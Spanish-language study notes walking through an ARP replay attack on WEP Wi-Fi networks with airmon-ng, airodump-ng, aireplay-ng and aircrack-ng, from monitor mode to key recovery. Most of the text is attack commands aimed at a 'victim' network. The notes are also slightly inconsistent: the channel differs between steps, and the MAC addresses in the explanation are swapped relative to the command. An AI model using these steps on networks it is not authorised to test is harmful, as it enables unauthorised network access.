 # Ataque Con ARP Replay Request
Para realizar una ataque [[ARP Replay Request]] para redes WEB, utilizaremos la herramienta [[Airmon-ng]].

	airmon-ng start wlan1
Vamos a poner la tarjeta de red en modo monitor.

-wlan1 *Tarjeta de red que vamos a poner ne modo monitor*

	airodump-ng -c 10 wlan1mon
Escanear el aire en busca de la victima en la interfaz monitor.

-wlan1mon *nombre de la tarjeta de red que aparece al momento de ejecutar ifconfig*
-c 10 *solo escanea en el canal deseado*

	macchanger -s
Obetener mi direccion MAC.

	airodump-ng -w capturas2 -c 1 --bssid C0:B5:D7:F6:71:05 wlan1mon
Obtener el trafico de la red.

-w *capturas ubicacion donde se guardaran las capturas de la red.*
-c 1 *especificamos el canal cual esta el access point de la victima.*
 --bssid *direccion mac de la red victima.*
 wlan1mon *interfaz de red con la cual deseamos escaner el trafico de la red victima.*
 
 Resultado de las capturas capturas2-01.cap 

	airplay-ng -3 -h C0:B5:D7:F6:71:05 -b 74:23:44:A9:C7:67 wlan1mon
Realizar ataque ARP Replay Request, hace que atrape los ARP request y enviandolos al access point.

-3 *Indicacion de ataque ARP Replay Request.*
-h 74:23:44:A9:C7:67 *MAC del cliente conectado a la red.*
-b C0:B5:D7:F6:71:05 *bssid de la red.*
-wlan1mon *tarjeta de red en modo monitor*
	
Resultado generamos mas trafico en la red y capturamos mas IVs que viajan por la red, una vez obtenido la mayor cantidad de datos ejecutamos aircrack.

	
	aircrack-ng capturas2-01.cap 
Esto va a proceder a probar los diferentes IVs que se obtuvieron, aircrack va ir provando los diferentes IVs para al final obtener la clave.

	





